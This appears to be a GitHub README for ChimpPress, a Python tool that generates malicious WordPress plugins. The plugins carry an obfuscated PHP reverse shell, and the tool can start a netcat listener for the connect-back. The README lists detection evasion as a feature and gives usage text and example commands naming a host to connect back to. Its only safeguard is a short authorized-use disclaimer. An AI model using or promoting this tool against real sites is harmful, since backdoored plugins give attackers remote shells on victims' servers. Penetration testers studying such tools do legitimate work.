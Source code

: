 
# ChimpPress
ChimpPress is a Python-based tool designed for generating malicious WordPress plugins. It takes a PHP reverse shell and embeds it into a custom, obfuscated WordPress plugin. The plugin is then compressed into a zip archive ready for deployment. The tool also provides the ability to listen for incoming connections after the plugin has been deployed.

## Features
-   Embeds a PHP reverse shell into a custom WordPress plugin
-   Obfuscates the plugin code to avoid detection
-   Compresses the plugin into a zip archive ready for deployment
-   Provides the ability to listen for incoming connections after the plugin has been deployed

## Usage
    usage: chimpPress.py [-h] [-i INPUT] [-l] [-o OUTPUT] [-p PORT] host

    positional arguments:
      host                          host to connect back to
    
    options:
      -h, --help                    show this help message and exit
      -i INPUT, --input INPUT       custom PHP reverse shell file to add to the plugin
      -l, --listener                start a netcat listener after generating the plugin
      -o OUTPUT, --output OUTPUT    name of the file to be generated
      -p PORT, --port PORT          port to listen on

## Getting Started
1.  Clone the repository: `git clone https://github.com/MachadoOtto/magik-monkee.git`
2.  Install Python 3 if not already installed.
3.  If using the Netcat listener, ensure that Netcat is installed and available in the system path.
4.  Run chimpPress.py with the desired arguments.

## Examples
1.  Basic usage with default port:

        python chimpPress.py HOST_IP
    
2.  Use a custom PHP reverse shell:

        python chimpPress.py HOST_IP -i /path/to/reverse_shell.php

3.  Custom port and start a Netcat listener:

        python chimpPress.py HOST_IP -p 1234 -l

## License

This project is licensed under the MIT License. See the [LICENSE](https://raw.githubusercontent.com/MachadoOtto/chimpPress/main/LICENSE) file for details.

## Disclaimer
This script is provided as-is, without any warranties or guarantees. Use this tool responsibly and only on systems and applications you are authorized to test. If you use it for evil you should feel bad :(

- The Monada 🙈🙉🙊